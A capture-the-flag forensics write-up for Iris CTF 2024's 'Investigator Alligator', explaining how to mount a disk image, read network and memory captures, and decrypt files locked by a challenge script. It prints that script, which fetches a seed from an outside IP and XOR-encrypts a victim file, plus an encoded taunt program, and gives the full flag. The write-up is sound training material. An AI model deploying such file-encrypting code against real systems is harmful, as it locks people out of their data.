




# Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTE**: Resource not included in repository due to its size.

```bash
ls -lah ./resource
total 31G
drwxr-xr-x 2 jc jc 4.0K Jan  7 12:51 .
drwxr-xr-x 3 jc jc 4.0K Jan  7 12:51 ..
-rw-r--r-- 1 jc jc  25G Jan  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6.4G Jan  7 11:05 investigator-alligator.gz
```

## Manual Solve

### First part of the flag

Extract the investigator-alligator.gz file:

```bash
7z x ./resource/investigator-alligator.gz -o./resource/
```

The file contains data formatted in ext4 filesystem:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Mount the filesystem:

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./resource/investigator-alligator /mnt/investigator-alligator
```

- In root/LiME/src/ we find sample.mem, the memory dump mentioned in the challenge description.

- In root/capture we find network, the network traffic capture mentioned in the challenge description.

In /home/stephen we find the file rswenc.py with the content:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

This script uses an XOR operation to encrypt an input file and save the result to an output file.

`s.connect(("149.28.14.135", 9281))`: Establishes a connection with the server at IP address "149.28.14.135" and port 9281. Then receives a seed from the server.

`random.seed(seed)`: Initializes the pseudorandom number generator with the received seed.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Performs a byte-by-byte XOR operation between the input file content and the random byte sequence (stream), and stores the result in the bytearray object.

Being an XOR operation, knowing the seed value received, we can restore the input file to its original state.
To find the seed value, we'll look for it in the capture.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```



We create a rwsdec.py script with the same content as rwsenc.py, removing the socket connection and changing the `seed =` line to `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

The script becomes:
`rwsdec.py`:

```py
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

We place it in /home/stephen and run `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```



We open the image /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png and find the first part of the flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Second part of the flag

The challenge description mentions that the user typed something after being hacked. Therefore, we'll search the memory dump generated by [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

We open the file /root/LiMe/src/sample.mem in a text editor and on line 4062972 we find:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

The source code for taunt.c, after using base64 -d is:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Since the program shows *"WHAT DO YOU SAY IN RESPONSE?"* we search for this text, and on line 867206 we find that as indicated in the challenge, the user wrote:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

We found the second part of the flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Therefore, we have the complete flag!

### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`



## Solution using solve.py
### Requirements
The script requires multiple packages. Requirements can be installed with the following command:

```bash
pip install -r requirements.txt
```

It also requires having [7z](https://linux.die.net/man/1/7z) installed

```py
# Run the 7z command to extract files
command = ["7z", "e", "-aos", output_file, capture_to_extract, f"-o{extracted_path}"]
```

### Execution
Run the following command:

```bash
python solve.py
```

It will show the second part of the flag in the output and the path to the image that needs to be viewed to obtain the first part of the flag.

> Note: the script will download the resource if not present in ./resource.

